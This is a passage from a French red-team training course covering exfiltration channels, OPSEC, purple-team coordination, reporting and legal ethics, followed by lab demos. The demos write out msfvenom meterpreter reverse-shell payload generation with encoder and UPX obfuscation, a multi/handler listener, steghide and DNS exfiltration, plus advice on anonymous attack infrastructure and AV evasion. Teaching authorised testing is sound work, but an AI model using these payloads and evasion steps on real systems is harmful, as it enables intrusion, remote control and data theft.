> sortir par petits morceaux, caché dans les repas du personnel (canal C2),
> dessiné dans les plans d'évacuation (stéganographie), ou par la porte des
> livraisons (protocole alternatif), au fil des semaines, en volumes qui
> ressemblent au trafic habituel.

#### Fonctionnement

| Voie | Principe | Détection classique | Outils |
| ---- | -------- | ------------------- | ------ |
| **Canal C2 (T1041)** | Les données sortent dans les réponses du beacon (HTTPS) | Volume anormal de trafic C2, horaires | Sliver/Havoc/Mythic (commande `download`) |
| **HTTP(S) (T1048)** | Upload vers un serveur que tu contrôles (web, dossier partagé) | Domaine inconnu, volume, MIME bizarre | `curl`, PowerShell `IWR`, scripts |
| **DNS (T1048 / T1071.004)** | Données encodées dans des noms de sous-domaines (`chunk.domain.com`) | Requêtes DNS longues/nombreuses vers un domaine suspect | Scripts Python, dnscat2, iodine |
| **Stéganographie (T1027.003)** | Données cachées dans une image/un média légitime | Difficile à détecter sans inspection approfondie | `steghide`, outils maison |
| **E-mail** | Envoi via la messagerie de l'organisation | Filtres de messagerie, DLP | SMTP légitime, `swaks` |
| **Bande limitée** | Ralentir volontairement (ex. 1 chunk toutes les 10 min) | Trafic normal en apparence | scripts avec `sleep` |

**Exemple — stéganographie :**

```bash
# Cacher un fichier dans une image
steghide embed -cf photo.jpg -sf photo_secrete.jpg -ef notes.txt

# Récupérer le fichier caché
steghide extract -sf photo_secrete.jpg
```

**Exemple — DNS exfil (l'idée, script complet dans la démo 5) :** le contenu est encodé (base64), découpé en morceaux, et chaque morceau devient un sous-domaine : `cHVicXVlLmV4ZmlsLmxhYg==.exfil.lab`. Chaque requête DNS vers ton serveur DNS de test livre un morceau. Le serveur réassemble le tout.

#### Architecture

```
Poste compromis ──► (données canaris) ──► encode + découpe
      │
      ├──► HTTPS (beacon C2) ───────────► teamserver (T1041)
      ├──► DNS exfil (T1048) ───────────► serveur DNS contrôlé
      ├──► HTTP upload ────────────────► VPS contrôlé
      └──► stégano (image.jpg) ────────► e-mail / partage
```

#### Cas d'utilisation

- Prouver qu'on peut sortir un crown jewel sans être détecté (avec un canari).
- Mesurer le DLP et la surveillance réseau : quelle voie est restée invisible ?
- Alimenter le rapport : « voici le fichier factice que nous avons exfiltré, voici la voie, voici la durée ».

#### Exemple réel

L'équipe rouge doit prouver qu'elle peut sortir le « fichier de facturation » (un canari). Elle constate que le pare-feu laisse passer le DNS et le HTTPS. Elle choisit le DNS : le fichier de 4 Ko est encodé en base64, découpé en 40 morceaux, envoyé un morceau toutes les 90 secondes sous la forme de sous-domaines de son domaine de test. En 1 h, tout est sorti. Les requêtes DNS vers ce domaine passent parmi des dizaines de milliers de requêtes DNS quotidiennes — invisibles sans corrélation dédiée.

#### Bonnes pratiques

- **Jamais de données réelles** : uniquement des canaris fournis par le client, dans les ROE.
- Cadrer la **quantité** et la **durée** dans les ROE (pas de transfert massif).
- Varier les voies et les rythmes pour ne pas créer un pic unique et identifiable.
- Mesurer les **temps** (début de l'exfiltration → fin) : c'est une donnée du rapport.
- Penser aux **formats d'archives** : un fichier `zip` sortant vers un domaine inconnu est l'alerte n°1 des SOC ; le DNS et la stéganographie contournent ce signal.

#### Résumé

L'exfiltration est l'aboutissement du scénario : sortir des canaris de façon contrôlée, par le canal C2, par un protocole alternatif (DNS, HTTP, stégano, e-mail), avec des bandes limitées pour ne pas attirer l'attention — et tout documenter pour le rapport.

---

### (l) L'OPSEC (Operations Security)

#### Définition

L'**OPSEC** est la discipline qui consiste à minimiser les traces laissées, éviter la détection et préserver la viabilité de l'engagement. Concrètement : ne pas laisser d'artefacts inutiles, ne pas éveiller les alertes, comprendre ce que la défense *voit* de toi, et conserver les preuves nécessaires au rapport.

#### Pourquoi

Parce qu'en red team, l'échec n'est pas de perdre l'accès — c'est d'être **vu** sans le savoir. Un opérateur qui laisse son historique de commandes, qui réutilise son nom d'utilisateur réel dans un serveur, qui laisse des fichiers temporaires, donne à la défense des indices qui permettent de tracer tout l'engagement. L'OPSEC protège trois choses : la furtivité (on continue sans être détecté), l'opérateur (l'infra offensive n'est pas reliée à lui), et la qualité de l'exercice (si la défense t'a vu dès le début sans que tu le saches, les conclusions du rapport sont fausses).

> 🍳 **Analogie :** l'OPSEC, c'est le **ménage du cambrioleur** : ne rien
> oublier sur place, ne pas toucher plus de surfaces que nécessaire, ne pas
> laisser de cheveux ou d'empreintes. Mais c'est aussi le **vêtement** :
> avant d'entrer, réfléchir à ce que la caméra va filmer (ce que la défense
> enregistre), et adapter son comportement en conséquence.

#### Fonctionnement

| Domaine | Actions OPSEC | Pourquoi |
| ------- | ------------- | -------- |
| **Furtivité réseau** | Chiffrer, limiter les scans, choisir des heures normales, sleep/jitter | Les scans massifs et le trafic anormal sont les signaux les plus simples |
| **Furtivité hôte** | Zéro fichier, commandes discrètes, pas d'outils laissés sur disque | Les artefacts locaux trahissent l'engagement |
| **Identité** | Infra séparée de ton identité, comptes jetables, domaines qui ne te mènent pas à toi | La défense remonte les liens externes |
| **Traces** | Nettoyer les fichiers temporaires, vider l'historique, mais SANS détruire les logs nécessaires au rapport | Un nettoyage trop agressif peut casser le labo ou supprimer des preuves |
| **Preuves** | Sauvegarder captures, commandes, résultats hors de portée de la défense | Le rapport et la confiance du client reposent dessus |
| **Communication** | Canaux sécurisés pour discuter de l'engagement (jamais de chat personnel non chiffré) | Une fuite de la préparation ruine l'exercice |

#### Architecture

```
Ce que la défense voit (logs, EDR, pare-feu, DNS) ──► ce que tu décides de lui montrer
        ▲
        │
   Choix OPSEC : protocole, rythme, artefacts, identité, traces
```

#### Cas d'utilisation

- Maintenir un engagement discret de plusieurs semaines.
- Éviter de brûler l'infra offensive (une IP détectée se fait blacklister).
- Garantir des conclusions fiables : la détection mesurée est la détection réelle, pas celle déclenchée par ta négligence.

#### Exemple réel

Un engagement de 6 semaines : l'équipe rouge utilise une infra totalement séparée de sa vie professionnelle — VPS achetés avec des cartes prépayées, domaines enregistrés via un service d'anonymisation, accès aux teamservers uniquement via TOR et proxychains. Sur les machines compromises, elle ne dépose jamais d'outils de diagnostic : tout est chargé en mémoire depuis son C2 puis effacé. À la fin, elle laisse volontairement une persistance *détectable* (prévue dans les ROE) pour que la blue team ait quelque chose à trouver pendant le debriefing — et nettoie les autres.

#### Bonnes pratiques

- **Penser OPSEC à chaque étape**, pas seulement au début : « qu'est-ce que cette action va laisser derrière elle ? »
- Établir une **check-list OPSEC** (infra, identité, traces, preuves) et la passer à chaque étape.
- Ne **jamais** exécuter de commandes qui exposent ton identité (historique shell, SSH keys réelles, comptes perso).
- Comprendre ce que la défense voit réellement : savoir ce qu'un EDR remonte, ce qu'un SIEM corrèle, ce qu'un proxy loggue.
- Séparer soigneusement les **preuves à conserver** (pour le rapport) des **traces à effacer** (pour la furtivité) — et le documenter.

#### Résumé

L'OPSEC est la discipline qui traverse tout l'engagement : furtivité réseau et hôte, séparation des identités, gestion des traces, conservation des preuves, communication sécurisée. Sans OPSEC, le red team le plus brillant n'est qu'un pentest bruyant.

---

### (m) La coordination avec la défense (purple team, blue team, détection)

#### Définition

Un engagement red team ne se termine pas à la dernière exfiltration : il s'articule avec la **défense**. Deux modes : la **blue team** (l'équipe de défense) observe l'exercice *sans être prévenue des techniques* (le SOC ne sait pas à l'avance quoi chercher), ou le **purple team** (les deux équipes travaillent ensemble, étape par étape, pour transformer chaque technique en règle de détection). Dans tous les cas, une **white cell** arbitre, transmet les informations strictement nécessaires, et gère les crises.

#### Pourquoi

Parce que le red team ne vaut que par ce qu'il permet d'améliorer. Sans coordination, un exercice peut finir en catastrophe : la blue team prend le faux adversaire pour un vrai et bloque la production, ou bien les deux équipes travaillent en parallèle sans jamais croiser leurs observations. La coordination transforme l'exercice en **cours de détection grandeur nature**.

> 🍳 **Analogie :** l'exercice red team, c'est une **répétition générale de
> pompier**. L'équipe rouge joue l'incendie, l'équipe bleue joue la caserne,
> et le metteur en scène (white cell) veille à ce que personne ne se blesse
> et que la répétition serve à tout le monde. Après la répétition, tout le
> monde regarde les images (les logs) ensemble : qu'as-tu vu à quel moment ?
> Que fallait-il voir ? Que manque-t-il ?

#### Fonctionnement

1. **Cadrage** : la white cell définit ce que la blue team sait (qu'une opération est en cours ? rien du tout ?). Trois variantes classiques : *covert* (rien), *semi-covert* (le SOC sait qu'un exercice a lieu, pas quand), *purple* (tout est partagé).
2. **Déroulement** : l'équipe rouge agit ; la blue team surveille et répond ; la white cell note les événements (détections, fausses alertes, interventions).
3. **Synchronisation** : en purple team, on peut « mettre en pause » pour discuter d'une technique non détectée et définir ensemble la règle de détection.
4. **Debriefing commun** : chaque technique de l'équipe rouge est passée en revue : la défense l'a-t-elle vue ? quand ? qu'est-ce qui manquait pour la voir ?
5. **Traduction en détections** : les enseignements deviennent des règles SIEM/EDR, des playbooks, des améliorations de configuration.

#### Architecture

```
                White cell (cadre, arbitrage, canaux)
               /        |            \
              ▼         ▼             ▼
        Team rouge    Team bleue     Direction
        (attaques)    (SOC)          (décisions)
         ───────────  collaboration purple ─────────────► détections, playbooks
```

#### Cas d'utilisation

- Exercice annuel de résilience avec le SOC réel.
- Démarrage d'un nouveau SIEM : tester 20 techniques ATT&CK et vérifier lesquelles génèrent des alertes utiles.
- Purple team « à la carte » : deux journées par mois pour améliorer la détection sur un thème (C2 HTTPS, DCSync, persistance).

#### Exemple réel

Lors d'un purple team de deux jours, l'équipe rouge exécute un DCSync (technique T1003.006) sur un DC de labo. L'équipe bleue ne détecte rien : aucun événement ne corrèle les appels de réplication `DRSUAPI`. Ensemble, ils définissent une règle : alerter sur les appels `DRSUAPI` depuis un hôte qui n'est pas un DC. Deux jours plus tard, un simulateur d'attaquant relance la technique : l'alerte sonne. La technique, hier invisible, est aujourd'hui un IoC exploité par le SOC.

#### Bonnes pratiques

- Définir **avant** l'exercice ce que chaque camp est autorisé à savoir.
- Prévoir une **white cell** neutre pour arbitrer et éviter les conflits.
- Pendant l'exercice, noter les **horodatages** de chaque détection (c'est la matière première du rapport).
- Ne jamais laisser un désaccord attaque/défense gâcher l'exercice : tout passe par la white cell.
- Terminer par un **plan d'action** : quelles règles de détection créer, quels playbooks rédiger, quelles configurations changer.

#### Résumé

La coordination avec la défense est ce qui transforme un exercice offensif en amélioration défensive durable. Covert, semi-covert ou purple : la white cell arbitre, les deux équipes échangent après coup, et chaque technique non détectée devient une règle de détection.

---

### (n) Le rapport red team

#### Définition

Le **rapport red team** est le livrable final : il raconte l'histoire de l'engagement du point de vue de l'attaquant, mesure l'efficacité de la défense, et recommande des actions. Contrairement au rapport de pentest (liste de vulnérabilités scorées), le rapport red team est **narratif et stratégique** : scénarios, temps de détection, techniques utilisées (référencées ATT&CK), chemin vers les crown jewels, recommandations.

#### Pourquoi

Parce que la direction qui commande un red team veut répondre à une question : « si un adversaire s'acharnait contre nous, qu'est-ce qui se passerait ? ». Un rapport de vulnérabilités ne répond pas à cette question ; un récit d'engagement, avec les failles réelles *utilisées*, les détections *réussies* et les temps *mesurés*, y répond. Le rapport est aussi la **preuve de la valeur** de l'exercice : sans lui, l'équipe rouge a dépensé 6 semaines de furtivité pour rien.

> 🍳 **Analogie :** le rapport de pentest, c'est la **liste des pièces
> détachées défaillantes** d'une voiture. Le rapport red team, c'est la
> **vidéo du crash-test avec l'analyse du mécanicien** : à quel moment la
> direction a dérapé, quel système a cédé en premier, combien de temps avant
> que la voiture perde le contrôle — et quoi changer pour la prochaine.

#### Fonctionnement

**Structure classique :**

1. **Résumé exécutif** : en 2 pages pour la direction — objectifs, résultat global (crown jewels atteints ou non), temps de détection moyens, chiffres clés.
2. **Périmètre et règles** : rappel du mandat, du scope, des ROE, des limites.
3. **Scénarios narratifs** : chaque engagement raconté étape par étape (phishing → payload → C2 → latéralité → exfil), avec les heures, les techniques ATT&CK, et les captures d'écran.
4. **Évaluation défensive** : pour chaque étape, a-t-elle été détectée ? après combien de temps ? quelles alertes ont été générées ?
5. **Techniques utilisées** : tableau des TTP avec référence ATT&CK et niveau de détection.
6. **Recommandations** : actions par priorité (règles SIEM, configs, patchs, sensibilisation, segmentation).
7. **Annexes** : IoC, commandes, indicateurs de compromission (IP, domaines, hashs), timeline complète.

#### Architecture

```
Direction ◄──── Résumé exécutif (2 pages)
   ▲
   ├── 3. Scénarios narratifs ──► (le « comment » de chaque engagement)
   ├── 4. Évaluation défensive ──► (le « quand » et le « pourquoi pas »)
   ├── 5. Tableau TTP ATT&CK ──► (le langage commun)
   ├── 6. Recommandations ──► (le « quoi faire »)
   └── 7. Annexes (IoC, timeline) ──► (le « technique » pour le SOC)
```

#### Cas d'utilisation

- Présenter l'exercice au comité de direction (résumé exécutif).
- Donner au SOC une liste d'IoC et de techniques à surveiller (annexes).
- Justifier des investissements (nouvel EDR, formation, segmentation) avec des preuves mesurables.

#### Exemple réel

Après un engagement de 4 semaines, le rapport montre que l'équipe rouge a atteint le crown jewel (le fichier comptable canari) en passant par 4 machines, sans jamais être détectée — le temps de détection médian de la blue team sur les techniques réellement employées était de 0 (aucune alertée). La direction décide : un EDR supplémentaire sur les postes sensibles, une règle SIEM sur les appels DRSUAPI, et une campagne de sensibilisation au phishing. Le red team suivant, un an plus tard, montrera l'amélioration : 2 techniques détectées en moins de 30 minutes.

#### Bonnes pratiques

- Écrire pour **trois publics** : direction (exécutif), SOC (technique), équipe informatique (corrections) — trois niveaux de détail.
- Ne **jamais** exagérer ni omettre : un objectif non atteint doit être dit, une technique non testée doit être listée comme telle.
- Référencer **chaque étape à ATT&CK** pour que la défense puisse agir.
- Donner les **mesures** (temps de détection, nombre de machines touchées, volume exfiltré) : ce sont elles qui font réagir.
- Conserver les **preuves brutes** (logs, captures, captures d'écran) : le rapport est attaquable par le client.

#### Résumé

Le rapport red team est narratif et stratégique : il raconte le scénario, mesure la défense, référence les TTP et recommande des actions. Il s'adresse à la direction, au SOC et à l'IT, avec des niveaux de détail adaptés et des preuves mesurables.

---

### (o) Les considérations éthiques et légales

#### Définition

Le red team est l'activité offensive la plus proche d'une vraie attaque : phishing de vrais employés, persistance sur de vraies machines, exfiltration de (canaris de) données. Il est donc aussi l'activité la plus encadrée. Les considérations **légales** : autorisation écrite, périmètre exact, respect des lois (code pénal, RGPD — *Règlement Général sur la Protection des Données*). Les considérations **éthiques** : ne pas nuire, ne pas humilier, respecter la dignité des personnes ciblées, ne jamais dépasser les limites même quand techniquement possible.

#### Pourquoi

Parce que sans autorisation écrite, un « red team » n'est qu'une intrusion punie par la loi. Parce qu'avec une autorisation, tout le reste doit encore être maîtrisé : le phishing « amusant » peut humilier un employé, l'exfiltration d'un canari peut frôler l'exfiltration de vraies données, une persistance peut déclencher une crise interne. Le red teamer professionnel est celui qui sait **jusqu'où ne pas aller**, même quand il pourrait techniquement.

> 🍳 **Analogie :** le red team, c'est le **chirurgien et non le guerrier**.
> Le guerrier gagne en coupant ; le chirurgien doit ouvrir le corps pour
> comprendre et réparer, mais il s'interdit tout geste inutile, il porte des
> gants (le cadre légal), il demande un consentement éclairé (le mandat), et
> il referme proprement. La différence entre les deux n'est pas la
> technique : c'est l'intention, le consentement et le soin.

#### Fonctionnement

**Cadre légal :**

| Élément | Rôle |
| ------- | ---- |
| **Autorisation écrite signée** | Transforme l'intrusion en mission ; doit être nominative, datée, avec scope et durée. |
| **ROE détaillées** | Précise ce qui est interdit (DDoS, exfiltration réelle, ciblage de certaines personnes). |
| **RGPD / données personnelles** | Interdit de toucher aux données personnelles réelles ; on travaille avec des canaris. |
| **Lois nationales** | En France : code pénal (intrusion, art. 323-1 et suivants), même si l'autorisation du propriétaire protège le prestataire ; se renseigner sur sa juridiction. |
| **Sous-traitance** | Vérifier que le commanditaire est bien habilité (propriétaire des systèmes ou mandaté). |

**Cadre éthique :**

| Principe | Application |
| -------- | ----------- |
| **Proportionnalité** | Ne faire que ce qui est nécessaire à l'objectif de l'exercice. |
| **Respect des personnes** | Le phishing doit être professionnel, sans humiliation, avec un debriefing à la fin. |
| **Transparence avec le commanditaire** | Tout est documenté ; rien d'important n'est caché. |
| **Confidentialité** | Les découvertes ne sortent pas de l'organisation (NDA — *Non-Disclosure Agreement*). |
| **Non-malfaisance** | Aucun dégât volontaire, aucun vol réel, aucune compromission hors périmètre. |

#### Architecture

```
Décision de faire un red team
   │
   ▼
Autorisation écrite + ROE + scope + canaux d'urgence
   │
   ▼
Déroulement dans le cadre (toute dérive → white cell)
   │
   ▼
Debriefing + rapport + nettoyage des accès
   │
   ▼
Retour d'expérience éthique (ce qui a bien marché, ce qui doit changer)
```

#### Cas d'utilisation

- Toute la préparation (section b) est la mise en œuvre concrète de ces principes.
- Le rapport inclut une section « cadre » : périmètre, autorisations, limites respectées.
- La fin d'exercice inclut un **nettoyage** complet : retrait des persistances, des comptes créés, des fichiers déposés.

#### Exemple réel

Une équipe rouge découvre, pendant le déroulement, un serveur de production hors scope visible depuis un poste compromis. Techniquement, elle pourrait s'y connecter ; éthiquement et légalement, elle ne le fait pas. Elle note la découverte, contacte la white cell, et la white cell demande au commanditaire une extension de scope — qui sera signée avant toute action. Cette discipline de « stop and ask » est la signature d'un professionnel.

#### Bonnes pratiques

- Toujours enregistrer et conserver **mandat, ROE, autorisation** signés et datés.
- En cas de doute (une action sort du cadre ?), **s'arrêter et demander** — jamais improviser un élargissement.
- Prévoir le **nettoyage** dans les ROE : à la fin, on retire ce qu'on a installé (sauf persistance laissée volontairement pour la blue team, documentée).
- Ne jamais utiliser des compétences offensives hors cadre : même « pour rire » sur un système d'un ami, c'est un délit.

#### Résumé

Légal et éthique sont les deux garde-fous du red team : autorisation écrite, ROE, scope, respect des personnes, proportionnalité et nettoyage. La compétence technique sans ce cadre n'est pas une carrière : c'est un délit.

---

## Visualisation

> ⚠️ **Légal** : tous les schémas ci-dessous décrivent des exercices menés sur
> des laboratoires isolés, avec mandat écrit. Dans un environnement réel, ils
> n'ont de sens que dans le cadre des ROE signées et de la white cell.

### Cycle de vie complet d'un engagement red team



### Architecture C2



### Schéma tunneling / pivot

```
                    Réseau de l'entreprise (interdit à l'attaquant)
┌────────────────────────────────────────────────────────────────────────────┐
│                                                                            │
│  10.10.0.0/24 (réseau interne — inaccessible directement)                  │
│                                                                            │
│   [DC 10.10.0.10]     [Fichier 10.10.0.20]                                 │
│         ▲                     ▲                                            │
│         └──────────┬──────────┘                                            │
│                    │                                                        │
│            [Serveur web 10.10.0.5]  ← carte réseau #2                       │
│                    │  ▲                                                    │
│   ┌─────────tunnel chiffré (ligolo/chisel/SSH)──────────┐                  │
│   │              (trafic autorisé : HTTPS/SSH)          │                  │
│   └─────────────────────────────────────────────────────┘                  │
│                    │                                                       │
└────────────────────┼───────────────────────────────────────────────────────┘
                     │
            [Machine compromise]  ← carte réseau #1 (DMZ)
                     │
                     │  proxychains → 127.0.0.1:1080 (SOCKS)
                     ▼
            [Attaquant — Kali]
```

### Schéma phishing (séquence)



### Tableau MITRE ATT&CK — tactiques et exemples de techniques du cours

| Tactique | ID | Exemples de techniques | ID technique |
| -------- | -- | ---------------------- | ------------ |
| Initial Access | TA0001 | Phishing, exploitation d'application exposée, watering hole | T1566, T1190, T1189 |
| Execution | TA0002 | PowerShell, scheduled task, script | T1059, T1053, T1204 |
| Persistence | TA0003 | Run keys, scheduled task, service, DLL hijack, WMI | T1547, T1053.005, T1543, T1574, T1546 |
| Privilege Escalation | TA0004 | Token manipulation, misconfigs, délégations | T1134, T1558 |
| Defense Evasion | TA0005 | Obfuscation, masquage, LOLBins, déchiffrement | T1027, T1036, T1140 |
| Credential Access | TA0006 | Dumping LSASS, Kerberos, bruteforce | T1003, T1558, T1110 |
| Discovery | TA0007 | Système, comptes, réseau | T1082, T1087, T1018 |
| Lateral Movement | TA0008 | Services distants, alternative auth, pivots | T1021, T1550, T1572 |
| Collection | TA0009 | Données locales, archivage | T1005, T1560 |
| C2 | TA0011 | Protocole applicatif, tunneling, proxy, encodage | T1071, T1572, T1090, T1132 |
| Exfiltration | TA0010 | Via C2, protocole alternatif, stégano | T1041, T1048, T1027 |
| Impact | TA0040 | Destruction / altération (hors red team sauf cas prévu) | T1485 |

### Tableau des outils C2 : open source vs commercial

| Critère | Sliver | Havoc | Mythic | Cobalt Strike |
| ------- | ------ | ----- | ------ | ------------- |
| Coût | Gratuit | Gratuit | Gratuit | **Payant** (licence annuelle) |
| Langage | Go | C++/Python | Python/Docker | Java |
| Type d'implant | Exécutable sur mesure, stagers | Shells & démonstrations | Agent modulaire | Beacon (le standard) |
| Malleable C2 | Profils modifiables | Profils | Personnalisation HTTP | Très fin |
| UI | Console CLI | GUI | Web UI | GUI |
| Usage pédagogique | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐ (payant, mais concept de référence) |
| Note | Alternative open source crédible de Cobalt Strike | Interface agréable, bonnes démos d'évasion | Architecture d'équipe, API | Le modèle du genre ; utiliser d'abord les alternatives gratuites |

### Schéma persistance (ASCII)

```
Reboot / reconnexion utilisateur
        │
        ▼
┌─────────────────────────────────────────────────────────────────┐
│                        MACHINE WINDOWS                           │
│                                                                  │
│  Démarrage système :                                             │
│     Service auto (sc create ... start= auto)  ─────► beacon      │
│     WMI subscription (EventFilter/Consumer)   ─────► commande    │
│                                                                  │
│  Ouverture de session :                                          │
│     Startup folder  ─────► beacon                                │
│     Run key (HKCU)   ─────► beacon                               │
│     Scheduled Task (onlogon) ─────► beacon                       │
│                                                                  │
│  Toutes les 5 minutes :                                          │
│     Scheduled Task (repetition) ─────► beacon (relance)          │
└─────────────────────────────────────────────────────────────────┘
```

---

## Démonstration

> ⚠️ **Légal** : les 5 démos se déroulent **exclusivement** sur un laboratoire
> isolé (Kali + machines Windows de labo, réseau VirtualBox host-only
> `192.168.56.0/24` ou équivalent), entièrement sous ton contrôle. Aucune de
> ces techniques ne peut être reproduite sur un système qui ne t'appartient
> pas sans **autorisation écrite**. Red team = exercice avec mandat explicite,
> scope strict, règles d'engagement.

---

### Démo 1 — Générer un payload msfvenom et l'obfusquer

#### Contexte

Tu es en red team. Tu as obtenu un clic sur ta campagne de phishing (ou une exécution de commande) sur une machine Windows de labo : `192.168.56.10`. Tu veux lui délivrer un payload qui contacte ton poste d'attaque (`192.168.56.1`, Kali).

#### Objectif

Générer un payload Metasploit `windows/meterpreter/reverse_tcp`, l'obfusquer (encodeur `shikata_ga_nai`, packing UPX), le tester contre un AV de labo (ClamAV), et vérifier sa taille et sa détection.

#### Commandes

```bash
# 1. Voir les payloads et encoders disponibles
msfvenom --list payloads | grep -i "windows/x64/meterpreter/reverse_tcp"
msfvenom --list encoders | grep -i shikata

# 2. Générer un payload brut x86 (l'encodeur x86 ne fonctionne que sur x86)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 \
         -e x86/shikata_ga_nai -i 5 -f exe -o /tmp/payload_shikata.exe

# 3. Générer un payload x64 SANS encodeur (les payloads x64 n'ont pas d'encodeur intégré)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 \
         -f exe -o /tmp/payload_x64.exe

# 4. Packer le payload avec UPX (compresser/déguiser)
upx --best /tmp/payload_x64.exe -o /tmp/payload_x64_upx.exe

# 5. Vérifier les tailles et les empreintes
ls -lh /tmp/payload_*.exe
sha256sum /tmp/payload_*.exe

# 6. Tester contre ClamAV (AV de labo) s'il est installé
clamscan /tmp/payload_*.exe
```

#### Explication ligne par ligne

1. `--list payloads | grep` : on vérifie le **nom exact** du payload (les noms changent selon les versions ; un seul caractère faux = échec). On fait pareil pour l'encodeur `shikata_ga_nai` (le plus célèbre, « l'eau qui s'écoule », un encodeur polymorphe).
2. `-p` choisit le payload ; `LHOST`/`LPORT` = où le payload va se connecter (ton IP Kali, port 4444) ; `-e x86/shikata_ga_nai -i 5` = encoder 5 fois de suite (polymorphisme) ; `-f exe` = format binaire Windows ; `-o` = fichier de sortie.
3. Le payload **x64** ne supporte **pas** les encodeurs x86 : générer un x64 avec `-e x86/...` échoue. On le laisse brut — c'est la réalité de msfvenom moderne.
4. `upx --best` compresse le binaire : l'exécutable est décompressé en mémoire au lancement. C'est une forme d'obfuscation *packing*.
5. `ls -lh` vérifie que les fichiers existent et ont des tailles plausibles ; `sha256sum` calcule l'empreinte (on la conservera comme preuve / IoC pour le rapport).
6. `clamscan` : on teste la détection avec un AV libre de labo. Un payload brut x64 sera **presque sûrement détecté** ; c'est précisément le but de la démo : constater la détection, puis comprendre pourquoi.

#### Résultat attendu

```
payload_shikata.exe      …  (taille ~ 74 Ko)
payload_x64.exe          …  (~ 7168 octets, payload nu)
payload_x64_upx.exe      …  (plus petit grâce à la compression)

FOUND  → /tmp/payload_x64.exe  (détecté : Win.Payload…)
FOUND  → /tmp/payload_x64_upx.exe
OK     → clamscan … (selon les signatures de ta base)
```

#### Analyse

- Le payload brut est détecté : il est **connu des signatures** (c'est un pattern d'octets attendu par tous les AV).
- `shikata_ga_nai` change la représentation, mais les AV modernes ne s'arrêtent plus aux signatures : l'**heuristique** et l'**analyse comportementale** (processus qui ouvre une connexion réseau, écriture de fichiers, etc.) suffisent.
- UPX est *signé* comme packer : la présence d'UPX est en soi un signal pour les AV/EDR.
- Conclusion pédagogique : pour un vrai engagement, l'obfuscation « à l'ancienne » (encodeur + packer) ne suffit plus. Il faut de la **recompilation** (implant en Go/Rust), du **zéro fichier**, et des **canaux chiffrés**.

#### Erreurs fréquentes

- Utiliser un payload **x64 avec un encodeur x86** → erreur `Invalid encoder` ou échec silencieux.
- Oublier que `LHOST` doit être l'IP **joignable** par la cible (pas `localhost` !).
- Oublier `-f exe` : sans format, msfvenom sort du raw binaire inutilisable tel quel.
- Croire qu'un `shikata_ga_nai` rend le payload indétectable : faux, et dangereux en engagement réel.
- Soumettre son payload à VirusTotal pour « le tester » : c'est le partager avec toute l'industrie AV — interdit en red team.

#### Correction

```bash
# Bonne pratique : générer en pensant au contexte réel.
# Vérifier d'abord le nom exact du payload :
msfvenom --list payloads | grep -i reverse_tcp | grep -i windows

# Générer le x64 correct (pas d'encodeur, pas de UPX pour un vrai engagement) :
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 \
         -f exe -o /tmp/payload_propre.exe

# Test local uniquement, sur labo isolé, et sans soumettre le fichier à un service public.
# Pour l'évasion réelle : recompiler un implant (Sliver generate) ou passer par du scripting
# PowerShell chiffré (zéro fichier) — jamais par l'encodeur seul.
```

---

### Démo 2 — Configurer un listener multi/handler et récupérer une session

#### Contexte

Le payload de la démo 1 est maintenant déposé sur la machine Windows de labo (`192.168.56.10`), ou tu t'apprêtes à l'exécuter. Pour récupérer la session, il faut un **listener** côté Kali : le point d'écoute où le payload se connecte.

#### Objectif

Démarrer un listener Metasploit `multi/handler` avec le bon payload, exécuter le payload sur la cible, récupérer une session `meterpreter`, puis interagir (preuves de compromission) et fermer proprement.

#### Commandes

```bash
# Terminal 1 — Kali : lancer le listener
msfconsole -q

# Dans msfconsole :
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
run -j

# Vérifier que le listener tourne
jobs -l

# Terminal 2 — sur la machine Windows de labo : lancer le payload
#   C:\> payload_propre.exe

# Retour dans msfconsole : la session apparaît
sessions -l
sessions -i 1

# Dans la session meterpreter :
getuid
sysinfo
shell
#  (dans le shell) ipconfig, whoami, puis exit pour revenir à meterpreter
```

#### Explication ligne par ligne

1. `use exploit/multi/handler` : charge le module « listener générique » — le module qui écoute et attend qu'un payload se connecte (il n'exploite rien, il *reçoit*).
2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp` : **impératif** : le payload du listener doit être *exactement* celui du binaire généré en démo 1 (même nom, même bitness). Une incohérence x86/x64 = session jamais reçue.
3. `set LHOST 0.0.0.0` : écouter sur toutes les interfaces (pas seulement `127.0.0.1`).
4. `set LPORT 4444` : le port annoncé dans le payload.
5. `set ExitOnSession false` : ne pas arrêter le listener quand une session se termine — il reste disponible pour une autre victime.
6. `run -j` : lancer en tâche de fond (`-j` = *job*), pour garder la console libre.
7. `jobs -l` : vérifier que le job tourne. `sessions -l` liste les sessions reçues ; `sessions -i 1` s'y attache.
8. Dans meterpreter : `getuid` (qui es-tu ?), `sysinfo` (OS, architecture, hostname), `shell` (shell Windows natif), puis `exit`.

#### Résultat attendu

```
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (201774 bytes) to 192.168.56.10
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.10:…)

meterpreter > getuid
Server username: LAB\utilisateur
meterpreter > sysinfo
Computer     : LAB-PC
OS           : Windows 10 …
Arch         : x64
```

#### Analyse

- La session est la **preuve de compromission** : on a un canal de commande interactif.
- `getuid` montre le contexte d'exécution : ici un utilisateur du domaine `LAB`. La suite (privesc, latéralité) dépend de ce niveau de droits.
- Le listener `multi/handler` est l'équivalent « filet de sécurité » de msfvenom : on s'en sert pour tout payload Metasploit.

#### Erreurs fréquentes

- **Mismatch de payload** entre le binaire et le listener (ex. x86 côté cible, x64 côté listener) : aucune session.
- `LHOST` mis à `0.0.0.0` dans le payload (le payload se connecterait à l'adresse 0.0.0.0) : toujours mettre l'IP **réelle et joignable** dans msfvenom, et `0.0.0.0` seulement côté listener.
- Pare-feu Windows qui bloque le port : ajouter une règle ou utiliser un port déjà ouvert (443, 53).
- Lancer `run` sans `-j` : la console est bloquée, impossible de faire autre chose en parallèle.

#### Correction

```bash
# Vérifier la cohérence payload/listener dès la génération :
#   1. Générer  : msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe -o p.exe
